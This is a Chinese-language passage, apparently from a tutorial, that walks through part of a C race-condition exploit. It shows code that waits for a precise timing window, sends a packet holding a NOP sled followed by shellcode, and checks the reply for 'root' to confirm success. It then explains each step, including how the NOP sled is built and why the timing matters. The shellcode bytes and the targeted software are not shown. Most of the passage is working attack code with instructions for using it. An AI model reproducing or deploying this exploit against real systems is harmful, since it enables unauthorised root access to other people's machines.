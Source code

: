 ```
  nanosleep(&req, &rem); // 休眠以精确控制时间


  send_packet(sock, 2, payload, sizeof(payload)); // 发送包含shellcode的payload


  // 验证是否成功
  if (recv(sock, payload, sizeof(payload), 0) > 0)
    {
      if (strstr((char *)payload, "root") != NULL)
        return 1; // 成功
    }


  return 0; // 失败
}
```  
  
详细解释  
  
定义和初始化变量  
```
struct timespec req, rem;
unsigned char payload[256];
```  
```
req 和 rem 是 timespec 结构体，用于指定和保存休眠时间。
payload 是一个 256 字节的缓冲区，用于存放恶意负载数据。
```  
  
  
创建包含shellcode的payload  
```
memset(payload, 0x90, sizeof(payload)); // 填充NOP指令
memcpy(payload + sizeof(payload) - sizeof(shellcode), shellcode, sizeof(shellcode)); // 插入shellcode
memset(payload, 0x90, sizeof(payload));：使用 0x90 (NOP 指令) 填充整个缓冲区。NOP 指令不会执行任何操作，只是继续执行下一条指令。这种填充方式称为 NOP sled，用于确保在代码执行过程中滑向实际的 shellcode。
memcpy(payload + sizeof(payload) - sizeof(shellcode), shellcode, sizeof(shellcode));：将实际的 shellcode 插入到缓冲区的末尾。
```  
  
  
计算并设置休眠时间  
```
req.tv_sec = (time_t)parsing_time;
req.tv_nsec = (parsing_time - req.tv_sec) * 1000000000;
req.tv_sec：将 parsing_time 转换为秒部分。
req.tv_nsec：将 parsing_time 的小数部分转换为纳秒。
```  
  
  
休眠以精确控制时间  
```
nanosleep(&req, &rem); // 休眠以精确控制时间
nanosleep(&req, &rem);：使用纳秒级的精确度休眠指定的时间。这对于利用竞态条件非常关键，因为攻击者需要在正确的时间窗口内执行恶意代码。
```  
  